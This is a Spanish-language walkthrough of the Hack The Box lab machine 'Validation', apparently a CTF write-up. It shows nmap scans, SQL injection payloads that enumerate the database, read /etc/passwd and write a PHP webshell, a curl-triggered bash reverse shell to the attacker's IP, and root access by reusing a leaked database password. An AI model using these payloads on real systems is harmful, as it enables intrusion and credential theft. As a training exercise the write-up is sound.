


# Validation

`Validation` es una máquina que presenta una inyección SQL en su página web, la enumeración del usuario de la base de datos dispone de permisos `FILE`. Mediante una `webshell` se logra obtener acceso inicial al sistema. Para el usuario`root` se aprovecha de la reutilización de contraseñas desde la base de datos.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Validation**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.116 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-13 16:07 CET
Initiating SYN Stealth Scan at 16:07
Scanning 10.10.11.116 [65535 ports]
Discovered open port 22/tcp on 10.10.11.116
Discovered open port 8080/tcp on 10.10.11.116
Discovered open port 80/tcp on 10.10.11.116
Discovered open port 4566/tcp on 10.10.11.116
Completed SYN Stealth Scan at 16:07, 18.90s elapsed (65535 total ports)
Nmap scan report for 10.10.11.116
Host is up, received user-set (0.070s latency).
Scanned at 2025-02-13 16:07:11 CET for 19s
Not shown: 65522 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 62
4566/tcp open  kwtc       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 19.02 seconds
           Raw packets sent: 67055 (2.950MB) | Rcvd: 67117 (2.691MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.116
	[*] Open ports: 22,80,4566,8080

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abiertas distintas páginas web de `Nginx`.

```bash
❯ nmap -sCV -p22,80,4566,8080 10.10.11.116 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-13 16:07 CET
Nmap scan report for 10.10.11.116
Host is up (0.080s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   121.14 ms 10.10.16.1
2   46.79 ms  10.10.11.116

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.30 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Web Enumeration

Realizaremos una comprobación de las tecnologías que utiliza el sitio web.

```bash
❯ whatweb http://10.10.11.116/
http://10.10.11.116/ [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
```

Al acceder a [http://10.10.11.116](http://10.10.11.116) comprobamos la siguiente página web, en la cual se nos proporciona un input `username`, un listado de diferentes opciones de países y un botón de `Join Now`.

<figure><figcaption></figcaption></figure>

Realizamos una sencilla prueba de indicarle nuestro nombre `gzzcoo` y darle a `Join Now`.

<figure><figcaption></figcaption></figure>

En el resultado obtenido, verificamos que se nos muestra en la página web el nombre que le hemos indicado en el punto anterior. Esto nos llega a pensar de abrir la posibilidad de `SSTI`, pero no logramos obtener el resultado esperado.

<figure><figcaption></figcaption></figure>

## Initial Access

### Attempting to perform Command Injection (Failed)

Capturamos la solicitud con `BurpSuite`, para intentar realizar un `Command Injection`. Probamos en ambas variables.

<figure><figcaption></figcaption></figure>

Pero la página nos devolvía el resultado como una cadena de texto, con lo cual no logramos en realizar el `Command Injection`.

<figure><figcaption></figcaption></figure>

### Error-Based SQLI Exploitation

En el listado de países, se nos ocurrió que quizás la página web por detrás tenga una base de datos y opere a través de consultas SQL para proporcionarnos el nombre del país.

Probamos de realizar un `SQLI` básico inyectando una comilla simple `'` para verificar si en la respuesta del servidor web se nos mostraba algún tipo de información.

<figure><figcaption></figcaption></figure>

Al enviar la solicitud, en la respuesta del servidor se nos mostraba un error `SQL`. Con lo cual, mediante esta información podemos finalmente determinar que por detrás operan consultas SQL. Este error no debería ser mostrado a los usuarios, ya que podrían proporcionar información extra a un atacante, como en este caso.

<figure><figcaption></figcaption></figure>

### SQLI Enumeration

El primer paso será lograr determinar el número total de columnas de la base de datos, realizando la siguiente inyección SQL, finalmente comprobamos que se nos mostraba el valor `1` en la respuesta.

```sql
'UNION SELECT 1;-- -
```

<figure><figcaption></figcaption></figure>

Revisaremos el usuario que disponemos actualmente a través de la siguiente consulta.

```sql
'UNION SELECT USER();-- -
```

<figure><figcaption></figcaption></figure>

Revisamos el nombre de la base de datos que está utilizando la aplicación web.

```sql
'UNION SELECT DATABASE();-- -
```

<figure><figcaption></figcaption></figure>

Revisaremos la versión de base de datos que utiliza la aplicación web mediante la siguiente consulta.

```sql
'UNION SELECT VERSION();-- -
```

<figure><figcaption></figcaption></figure>

### Reading Arbitrary Files using SQLI (LOAD\_FILE)

Revisaremos si el usuario `uhc` dispone de los permisos necesarios para leer archivos del sistema mediante la función `LOAD_FILE`. Al realizar la prueba, logramos visualizar el contenido de `/etc/passwd`.

```sql
'UNION SELECT LOAD_FILE('/etc/passwd');-- -
```

<figure><figcaption></figcaption></figure>

### Web Shell via SQLI (INTO OUTFILE)

En este punto, tenemos permisos para leer archivos arbitrarios. El siguiente paso será determinar si podemos llegar a escribir archivos mediante la función de `INTO OUTFILE`. En este caso, intentamos crear un nuevo archivo `gzzcoo.php` que contiene una **webshell** en la ruta `/var/www/html/` para posteriormente tener acceso desde la misma página web.

Al ejecutar el siguiente SQLI, en la respuesta del servidor se nos indicaba un mensaje de error...

```sql
' UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/gzzcoo.php";-- -
```

<figure><figcaption></figcaption></figure>

Igualmente trataremos de verificar si se ha llegado a subir correctamente la **webshell**. Logramos poder ejecutar el comando `whoami` a través del archivo subido en la página web mediante SQLI.

```bash
❯ curl -s 'http://10.10.11.116/gzzcoo.php?cmd=whoami'
www-data
```

El siguiente paso, será lograr obtener acceso al sistema remoto. Para ello, nos pondremos en escucha con `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos el siguiente comando a través de la `webshell` subida para proporcionarnos la Reverse Shell.

```sql
❯ curl -s "http://10.10.11.116/gzzcoo.php?cmd=/bin/bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/10.10.16.7/443%200>%261'"
```

Verificamos que hemos logrado el acceso al sistema y podemos visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.116] 35532
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ cat /home/htb/user.txt 
034c3ec9bef6********************
```

## Privilege Escalation

### Information Leakage

Revisaremos si el usuario `www-data` dispone de algún grupo interesante o de algún permiso de `sudoers`, pero no logramos obtener el resultado esperado.

```bash
www-data@validation:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@validation:/var/www/html$ sudo -l
bash: sudo: command not found
```

Realizando una enumeración del directorio`/var/www/html`, logramos obtener el contenido del archivo `config.php` el cual contenía de credenciales de la base de datos.

```bash
www-data@validation:/var/www/html$ ls -l
total 36
-rw-r--r-- 1 www-data www-data  1550 Sep  2  2021 account.php
-rw-r--r-- 1 www-data www-data   191 Sep  2  2021 config.php
drwxr-xr-x 1 www-data www-data  4096 Sep  2  2021 css
-rw-r--r-- 1 www-data www-data 16833 Sep 16  2021 index.php
drwxr-xr-x 1 www-data www-data  4096 Sep 16  2021 js
www-data@validation:/var/www/html$ cat config.php 
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

Probamos de verificar si estas credenciales se reutilizaban para el usuario `root` y verificamos del acceso correctamente. Para finalizar, comprobamos la flag de **root.txt**.

```bash
www-data@validation:/var/www/html$ su root
Password: 
root@validation:/var/www/html$ cat /root/root.txt 
00b9b6d3************************
```
